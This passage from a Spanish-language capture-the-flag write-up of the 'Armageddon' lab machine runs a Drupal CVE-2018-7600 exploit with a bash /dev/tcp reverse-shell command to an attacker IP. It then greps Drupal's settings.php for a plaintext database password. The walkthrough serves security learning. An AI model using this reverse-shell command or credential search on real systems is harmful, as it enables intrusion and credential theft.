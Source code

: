 En este caso lo que debemos de hacer es enviarnos una **Reverse Shell** para ello ejecutaremos el script de la siguiente forma:

```bash
python3 drupa7-CVE-2018-7600.py http://10.10.10.233 -c "bash -i >& /dev/tcp/10.10.14.5/443 0>&1"
```

___
## Escalada de privilegios

Observamos como recibimos la **Reverse Shell** correctamente por lo que ahora deberíamos hacer un **Tratamiento de la TTY** pero en está máquina me ha sido imposible realizarlo por lo que tocará apañarse con esta shell incómoda.

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224173016.png>)

Lo primero que se me ocurre es mirar el contenido de los archivos de configuración de **Drupal** y observar si alguno de ellos contiene información valiosa como lo son las contraseñas o nombres de usuarios. Tras realizar una pequeña búsqueda me encuentro que en **Drupal** hay un archivo en `/sites/default/settings.php` en cual contiene información de valor.

Si realizamos un grep de la palabra **password** en dicho archivo veremos una contraseña en texto plano:

> Otra forma válida hubiera sido revisar el archivo poco a poco en busca de alguna credencial.

![](<../assets/images/posts/2025-04-08-armageddon/Pasted image 20241224173459.png>)

Observamos que la credencial encontrada pertenece a una base de datos llamada **drupal** y además el usuario para acceder a ella es **drupaluser**.
